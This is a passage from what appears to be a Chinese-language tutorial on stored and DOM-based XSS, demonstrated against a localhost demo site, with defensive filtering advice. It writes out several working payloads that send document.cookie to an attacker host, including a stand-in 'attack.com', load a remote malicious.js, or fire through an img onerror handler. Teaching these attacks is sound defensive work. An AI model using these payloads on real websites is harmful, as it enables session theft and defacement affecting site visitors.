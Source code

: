 ```
```

运行上面的代码，然后打开网站 `http://localhost:3000/articles/1`，发表一则评论：

```
文章写的真棒！<script>fetch(`http://localhost:4000/cookies?cookie=${document.cookie}`)</script>
```

可以看到，用户的 Cookie 马上被发送到了攻击者的服务器。其实这种获取 Cookie 的方式还算小打小闹了，只要能够利用 xss 注入 script，黑客真的是可以「为所欲为」，例如黑客通过操作 DOM 的方式，分分钟把你的网站变成赌博网站、色情网站...，不信的话你输入下面的评论试试（内含福利）：

```
文章写的真棒！<script src="http://localhost:4000/malicious.js"></script>
```

在这个恶意脚本 `malicious.js` 里面，直接改掉了 body，想想看，所有访问你的网站的用户，看到的其实是另外一番景象，太吓人了。

### 防御方案

可以看到，存储型 XSS 也是因为恶意代码未经转义直接被插入到响应的 HTML 里的，然后被浏览器执行导致攻击，所以解决方案也是对用户输入进行过滤，过滤方案与上面讲的反射型一致，可以根据需要选择过滤时机，例如：

*   客户端提交前进行校验过滤，如果包含恶意脚本则不提交，或者提交转义后的字符串
    
*   服务端接收后先校验过滤，如果包含恶意脚本则不存储到数据库，或者存储转义后的字符串
    
*   客户端渲染时候进行过滤，即使数据库中存储了未经转义的恶意脚本，输出转义后的字符串
    

DOM 型 XSS 攻防实战
--------------

DOM 型 XSS 与反射型或存储型 XSS 的区别在于，DOM 型在服务器返回的网页或脚本中是看不到恶意代码的，而是在更新 DOM 树的时候触发了恶意脚本的执行。

### 攻击案例

我们来看一则模拟案例，前端开发人员未经过滤就直接把用户输入插入到 HTML 中：

```
<input id="input" type="text" /><button onclick="container.innerHTML = input.value">点击</button><p id="container"></p>
```

试想一下，如果此时用户输入了下面一段恶意脚本的话会发生什么？

```
<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>
```

值得庆幸的是，大部分现代浏览器都实现了 HTML5 的安全规范：

> 不执行由 innerHTML 插入的 script 标签。

但是这就足够安全了吗？非也，请看下面的输入：

```
<img src="x" onerror="fetch(`http://localhost:4000/cookies?cookie=${document.cookie}`)">
```

恶意脚本依然在 onerror 回调中被触发了！

### 防御方案

